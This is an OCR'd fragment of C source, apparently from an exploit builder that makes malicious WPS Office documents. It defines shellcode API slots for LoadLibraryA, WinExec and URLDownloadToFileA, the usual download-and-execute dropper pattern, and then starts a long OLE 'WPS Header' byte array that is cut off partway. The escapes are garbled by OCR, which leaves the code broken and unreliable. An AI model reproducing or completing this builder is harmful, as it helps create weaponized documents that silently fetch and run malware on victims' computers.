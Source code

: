 // Define Function Addr
#define ADDR_LoadLibraryA [esi]
#define ADDR_GetSystemDirectoryA [esi+4]
#define ADDR_WinExec [esi+8]
#define ADDR_ExitProcess [esi+12]
#define ADDR_URLDownloadToFileA [esi+16]
//#define ADDR_URL edi

// Need functions
unsigned char functions[100][128] =
{ // [esi] stack layout
 // kernel32 4 // 00 kernel32.dll
 {"LoadLibraryA"}, // [esi]
 {"GetTempPathA"}, // [esi+4]{"GetSystemDirectoryA"}
 {"WinExec"}, // [esi+8]
 {"ExitProcess"}, // [esi+12]
 //("ExitThread"},
 //{"TerminateProcess"},
 // urlmon 1 // 01 urlmon.dll
 {"URLDownloadToFileA"}, // [esi+16]
 {""},
};

/* WPS Header */
unsigned char uszWpsHeader[] =
"xd0xcfx11xe0xa1xb1x1axe1x00x00x00x00x00x00x00x00"
"x00x00x00x00x00x00x00x00x3ex00x03x00xfexffx09x00"
"x06x00x00x00x00x00x00x00x00x00x00x00x01x00x00x00"
"x01x00x00x00x00x00x00x00x00x10x00x00x02x00x00x00"
"x01x00x00x00xfexffxffxffx00x00x00x00x00x00x00x00"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xfdxffxffxffxfexffxffxffxfexffxffxffx04x00x00x00"
"x05x00x00x00x06x00x00x00x07x00x00x00x08x00x00x00"
"xfexffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"
"xffxffxffxffxffxffxffxffxffxffxffxffxffxffxffxff"